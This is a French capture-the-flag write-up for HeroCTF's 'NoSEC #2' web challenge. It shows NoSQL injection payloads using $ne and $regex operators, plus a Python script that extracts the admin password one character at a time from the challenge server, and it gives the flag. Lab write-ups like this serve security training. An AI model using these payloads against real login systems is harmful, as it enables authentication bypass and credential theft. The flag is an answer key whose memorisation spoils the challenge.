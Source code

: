 # NoSEC #2

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge ! L'URL du challenge reste la même.

Format: Hero{motdepasse}

### Solution 

Deuxième niveau du challenge [NoSEC #1]()

Nous sommes toujours sur une injection NoSQL, le principe reste basiquement le même mais cette fois-ci il va falloir `bruteforcer` le mot de passe.

La payload du niveau 1 consistait à envoyer : `{"username": "admin", "password": {"$ne": randomThing}}` qui faisait valider le mot de passe.

Ici, il va falloit donc falloir faire un attaque du type `Blind NoSQL` en utilisant les regex.

On teste en envoyant : {"username": {"$eq": "admin"}, "password": {"$regex": "" }}

On est bien authentifié.

Avec un script python on va alors pouvoir récupérer caractère par caractère le mot de passe.


```python
import requests

passwd = ""
headers = {'Content-Type': 'application/json'}
url = "http://challs.heroctf.fr:3000/login"

for _ in range(32):
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    for i in range(len(alphabet)):
        c = alphabet[i]
        data = '{"username": {"$eq": "admin"}, "password": {"$regex": "^'+passwd+c+'" }}'
        response = requests.post(url=url, headers=headers, data=data, verify=True)
        
        if b'success' in response.content:
            print('Nouveau caractère trouvé : ', c)
            passwd += c
        
        if b'You can validate' in response.content:
            print("Flag : Hero{"+passwd+"}")
            break
```

Flag : Hero{5d41402abc4b2a76b9719d911017c592}
